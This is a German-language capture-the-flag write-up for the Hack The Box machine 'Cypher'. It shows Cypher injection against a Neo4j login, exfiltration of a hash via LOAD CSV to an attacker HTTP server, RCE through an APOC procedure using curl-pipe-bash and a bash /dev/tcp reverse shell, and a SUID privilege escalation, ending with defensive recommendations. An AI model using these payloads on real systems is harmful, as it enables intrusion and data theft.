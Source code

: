 # Maschine 2: Cypher

## 1. Netzwerkanbindung

Wie immer starten wir mit der Verbindung zum HTB‑Netzwerk via OpenVPN:

```bash
sudo openvpn ~/Desktop/lab_lyfe691.ovpn
```

Verbindung wird durch die HTB‑Website bestätigt:

![VPN connected](image.png)

---

## 2. Zielerkennung & Vorbereitung

Ziel-IP von HTB erhalten: `10.10.11.57`

Vollständiger nmap‑Scan mit Versionserkennung, OS‑Erkennung, Scripts und Aggressivität `T4`:

```bash
nmap -sV -A -T4 10.10.11.57 -oN nmap_cypher.txt
```

Output zeigt SSH und HTTP:

```
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

![nmap result](Screenshot_2025-05-05_14_11_01.png)

Wir testen den HTTP‑Zugang über den Browser und merken schnell, dass die Seite `cypher.htb` erwartet – wir werden automatisch redirected.

Daher passen wir die `/etc/hosts` Datei an:

```bash
sudo nano /etc/hosts
```

```txt
10.10.11.57   cypher.htb
```

![hosts config](Screenshot_2025-05-05_14_12_29-1.png)

---

## 3. Web‑Enumeration & Eingabeprüfung

Direkt auf `http://cypher.htb` zeigt sich eine Seite mit Login‑Maske.

![alt text](Screenshot_2025-05-05_16_06_14.png)

![alt text](Screenshot_2025-05-05_16_06_14.png)

Wir testen `dirsearch`, um weitere Pfade zu finden:

```
/about
/api/ → zeigt /api/docs
/demo  → Login Page
/login
/testing/
```

![dirsearch](Screenshot_2025-05-05_14_28_23-2.png)

Beim Testen von SQL‑Injection im Login mit `' OR 1=1` erhalten wir direkt einen Neo4j‑Fehler:

![neo4j error](Screenshot_2025-05-05_14_49_33-1.png)

Das ist ein starker Hinweis: Backend nutzt **Neo4j** und **unsichere String‑Konkatenation**. Wir entscheiden uns, gezielt Cypher‑Injection zu testen.

---

## 4. Datenabfluss mit LOAD CSV auslösen

Ziel: Hash exfiltrieren.

Wir starten einen Python‑HTTP‑Server:

```bash
python3 -m http.server 8000
```

Dann testen wir eine modifizierte Payload mit `LOAD CSV` direkt in den Username‑Feld:

```json
{
  "username": "admin' OR 1=1  LOAD CSV FROM 'http://10.10.14.204:8000/leak='+h.value AS y RETURN ''//",
  "password": "123"
}
```

Im HTTP‑Server erscheint sofort:

```
GET /leak=9f54ca... HTTP/1.1
```

![hash leak](Screenshot_2025-05-05_15_19_21.png)

→ Funktioniert. Hash erfolgreich abgegriffen.

---

## 5. RCE mit getUrlStatusCode() via APOC

Wir testen weiter – unser Ziel ist Remote Code Execution (RCE).

Dokumentation zeigt, dass `apoc.custom` genutzt wird. Besonders gefährlich: `custom.getUrlStatusCode()`.

Wir erstellen `shell.sh` mit einer einfachen Bash‑Reverse‑Shell und liefern sie über den bereits laufenden Webserver:

```bash
# shell.sh
bash -i >& /dev/tcp/10.10.14.204/9001 0>&1
```

Listener starten:

```bash
nc -lvnp 9001
```

Dann bauen wir die Payload:

```json
{
  "username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;curl http://10.10.14.204:8000/shell.sh|bash;') YIELD statusCode AS value RETURN value;//",
  "password": "123"
}
```

Shell poppt – wir sind `neo4j`:

```
uid=997(neo4j) gid=995(neo4j)
```

![shell](Screenshot_2025-05-05_15_48_30-1.png)

---

## 6. Privilege Escalation → root

Wir suchen lokal nach Konfigurationsdateien, Umgebungsvariablen und SUID‑Binaries.

Zuerst entdecken wir ein Passwort in der Datei `bbot_preset.yml` (Zeile 10).

```bash
cat /opt/bbot/bbot_preset.yml
```

→ Enthält Klartext‑Passwort.

`su graphasm` klappt nicht – aber Bash mit SUID:

```bash
/tmp/bash -p
```

Jetzt sind wir root:

```bash
id
uid=0(root) gid=0(root)
```

![root shell](Screenshot_2025-05-05_15_50_40.png)

---

## 7. Flags

```bash
cat /home/graphasm/user.txt
→ 0a4de27fa731a210ead73b20dfc80140

cat /root/root.txt
→ e5577526fb5f80c5cb113cde4111ab3d
```

![1746479136549](image/Cypher/1746479136549.png)

![alt text](Screenshot 2025-05-05 at 15-53-50 Hack The Box Hack The Box.png)

HTB‑Link: [https://www.hackthebox.com/achievement/machine/2350832/650](https://www.hackthebox.com/achievement/machine/2350832/650)


## Empfehlungen & Geeignete Gegenmassnahmen

1.**Cypher-Injection absichern**

- Die Applikation war verwundbar gegenüber Cypher-Injection durch direkte String-Konkatenation in Neo4j-Abfragen.

   → **Massnahme:** Nutzung von **parametrisierten Cypher-Queries**, z. B. mit `$parameter`-Syntax, um direkte Injektionen zu verhindern.

2.**APOC-Plugins wie getUrlStatusCode beschränken**

- Die Funktion `custom.getUrlStatusCode()` wurde missbraucht, um RCE über `curl|bash` zu erzielen.

   → **Massnahme:** Deaktivieren oder hart absichern aller **unsicheren APOC-Prozeduren**, z. B. durch Whitelisting in der Konfiguration.

3.**Exfiltration über LOAD CSV verhindern**

- Durch `LOAD CSV FROM 'http://attacker'` konnte ein Hash exfiltriert werden.

   → **Massnahme:** Ausgehenden Netzwerkverkehr der Datenbank einschränken, insbesondere HTTP-Zugriffe durch Neo4j.

4.**Zugangsdaten nicht im Klartext speichern**

- Ein Passwort wurde im Klartext in `bbot_preset.yml` gefunden.

   → **Massnahme:** Konfigurationsdateien niemals für Klartext-Passwörter verwenden, sondern Umgebungsvariablen oder sichere Vaults.

5.**SUID-Binaries prüfen**

- SUID-Bash ermöglichte eine einfache Privilege Escalation.

   → **Massnahme:** Regelmässiger Audit aller SUID/SGID-Binaries mit Tools wie `find / -perm -4000 -type f -exec ls -la {} \;`

6.**Minimalprinzip für Benutzerrechte**

- Der Benutzer `neo4j` hatte Zugriff auf sensible Dateien und konnte durch Injektion Systemkommandos ausführen.

   → **Massnahme:** Rechte der Datenbankbenutzer auf das absolute Minimum reduzieren, insbesondere bei selbstgebauten Plugins oder Extensions.

7.**Logging und Monitoring**

- Es gab keinerlei Hinweis auf Überwachung oder Alarme bei ungewöhnlichem Verhalten (z. B. externer HTTP-Zugriff durch DB).

   → **Massnahme:** Integration von SIEM, File Integrity Monitoring und Alerting bei Anomalien im Datenbank- oder Web-Stack.

